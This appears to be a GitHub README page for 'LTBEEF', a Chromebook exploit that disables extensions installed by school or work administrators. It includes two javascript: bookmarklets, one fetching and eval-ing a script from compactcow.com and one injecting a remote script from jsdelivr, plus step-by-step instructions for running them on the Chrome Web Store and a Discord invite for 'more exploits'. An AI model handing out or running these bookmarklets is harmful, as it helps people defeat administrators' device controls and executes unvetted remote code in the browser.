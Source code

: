 ![image](https://user-images.githubusercontent.com/106267770/219900783-855ffa1c-5db1-41cd-9948-55076dad322a.png)


<h1>LTBEEF</h1>
<p style="text-align: center;">LTBEEF (Literally The Best Exploit Ever Found) is a exploit found by <a href="https://www.bypassi.com">bypassi</a> (Bypassi#7037) and is a great way to disable spyware that was installed on your chromebook by your SysAdmins!
The new UI was created by CompactCow#4717, Ingot ws created by Nebelung#1335<br><i> Logo created by LittleMissNyan</i></p>

<p><strong>Please note that this exploit has been patched in newer versions of chrome, and my not work. <a href="https://www.discord.gg/9w8pf35AUC">Join the TN discord for more exploits</a>!</strong></p>

<div style="text-align: center; border: solid; padding: 5px;">
<br><a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});"><strong>LTBEEF</strong></a><br>
<a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
"><strong>Ingot</strong></a>
<p>- Drag either of the above buttons to your bookmarks bar<br>
- Visit <a href="https://chrome.google.com/webstoreHIBDD">https://chrome.google.com/webstorex</a>. (This is a 404 page, and that is ok. If it is blocked, <a href="https://discord.gg/9w8pf35AUC">join the TN Discord server for support</a>!)<br>
- Click the bookmark (<strong>NOTE: This only works on the Chrome Web Store.</strong>)<br>
- Switch off the extentions you don't want to have anymore.<br> 
You're done! The extention should now be disabled.
</p>
</div><br>

[Back to Main](./)
